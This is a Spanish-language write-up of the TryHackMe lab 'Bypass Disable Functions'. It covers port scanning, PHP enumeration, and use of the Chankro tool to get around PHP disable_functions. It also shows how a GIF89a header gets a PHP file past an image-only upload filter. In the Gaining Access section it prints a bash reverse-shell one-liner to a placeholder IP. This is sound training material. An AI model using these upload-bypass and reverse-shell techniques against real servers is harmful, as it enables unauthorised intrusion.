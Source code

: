 ```yaml
---
title: "Bypass Disable Functions - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/BypassDisableFunctions/data/mail.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/TryHackMe.png?raw=true"
categories:
  - Writeup
  - TryHackMe
tags:
  - PHP
  - Bypassing
---
```


<p align="center">
<img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/THM/BypassDisableFunctions/data/ChankroTHM.png?raw=true">
</p>

La máquina **Bypass Disable Functions** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **Info** desarrollada por **stuxnet** y publicada **23 de junio del 2021** cuenta con un sistema operativo **Linux**.

**URL:** [Bypass Disable Functions - TryHackMe](https://tryhackme.com/jr/bypassdisablefunctions)


## Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.71.174]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **22 y 80** :  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web mediante un navegador ya que cuenta con un servicio **http** por el puerto **80** y al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/web.png">
  </p>

  Enumerando la pagina podemos ver que existe una ruta donde es posible subir archivos.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/arc.png">
  </p>

## Lateral Movement

  Al enumerar la web con la herramienta de **wappalyzer** se puede ver que la web tiene como lenguaje de programación **PHP**

  <p align="center">
  <img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/THM/BypassDisableFunctions/scan/wap.png?raw=true">
  </p>

  Con esto en mete podemos ver que el archivo **phpinfo.php** esta disponible, esté archivo nos da información sobre la configuración del servidor y las configuraciones para interpretar un **php** por ejemplo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/phpi.png">
  </p>


  Viendo la información que nos brinda el **phpinfo** podemos ver un apartado llamado **disable_funtions** y en ella están seteadas muchas variables criticas como:
  - exec
  - passthru
  - shell_exec
  - system
  - proc_open
  - popen
  - curl_exec
  - curl_multi_exec

  Al podemos ver que estamos muy limitados a la hora de subir un archivo **php** el cual contenga código malicioso a nuestro beneficio pero investigando y gracias a la información que nos brinda esta maquina podemos hacer uso de la herramienta **[Chankro](https://github.com/TarlogicSecurity/Chankro)**.

  Esta herramienta nos permite ejecutar comando mediante la función **mail()** y **putenv()** cambiando una variable de entorno con la cual ejecuta el binario **sendmail**. Una explicación de lo que hace es a bajo nivel lo explican en este **[articulo](https://www.tarlogic.com/blog/evadir-disable_functions-open_basedir/)**.

  Para probar si la herramienta funciona vamos a ejecutar un **whoami** y depositar lo en la ruta absoluta de la web, la cual se alojan en **/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/** esto se sabe ya que ene le **phpinfo** se puede ver la ruta en donde esta alojada la web.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/info.png">
  </p>

  Para hacer esto voy a crear un archivo llamado **command.sh** y con el siguiente contenido:

  ```bash
  #!/bin/bash

  whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/winsad.txt

  ```
  Ya creado esto hare uso de la herramienta **Chankro** con los siguientes parámetros:

  - **--arch 64**             (Architecture 32 or 64.)  
  - **--input command.sh**    (Binario a ejecutar.)
  - **--output winsad.php**   (Nombre del PHP a crear.)
  - **--path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db**  (Ruta a donde se aloja el binario creado.)

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/cha1.png">
  </p>

  Una vez creado la herramienta nos crea el  archivo **php** ire a la web y lo subo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web1.png">
  </p>

  Cuando lo subo puedo ver que me marca error y eso sucede ya que la pagina tiene una validación la cual solo permite subir imágenes y para **bypassear** esta validación puedo agregar a el archivo **php** el **magic number** de un **GIF** el cual tiene un valor ```GIF89a;```:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/cha2.png">
  </p>

  Agregándole esta cabecera estamos indicando que los primero bits del archivo se identifica como un **GIF** y si hago un **file** puedo ver que efectivamente toma que el archivo es un **GIF** aunque tenga extension **php**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/file.png">
  </p>

  Si volvemos a subir el archivo podemos ver que ahora si nos permitió subir el archivo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web2.png">
  </p>

  Si buscamos en la web podemos ver que existe un subdirectorio **uploads** en donde se almacenan los archivos que subimos:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web3.png">
  </p>

  Si entramos a nuestro archivo podemos ver que el código en php lo interpreta y según las instrucciones a la hora de interpretarlo debería crear nuestro archivo en la raíz el cual indicamos que se llama **"winsad.txt"** y si accedemos a la ruta podemos ver que efectivamente el archivo existe:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web4.png">
  </p>

## Gaining Access

  Ahora que podemos ver que se pueden ejecutar comando a nivel de sistema modificare el archivo **command.sh** y agregare código que cuando se ejecute me entable una revershell a mi maquina por el puerto 443:

  ```bash
  #!/bin/bash

  bash -c 'bash -i >& /dev/tcp/[My IP]/443 0>&1'
  ```

  Con esto en mente y ya modificado el archivo **command.sh** vuelvo a crear el archivo **winsad.php** con **Chankro** y ya creado vuelvo a agregar la cabecera **'GIF89a;'** y a subir el archivo.


  Ya que volví a subir el **php** y yendo a la ruta donde esta alojado **winsad.php** puedo ver que me interpreta el código y me otorga la **shell**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/shell.png">
  </p>

  Ya dentro de la maquina podemos ir la directorio del usuario **s4vi** y visualizar la flag.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/flag.png">
  </p>
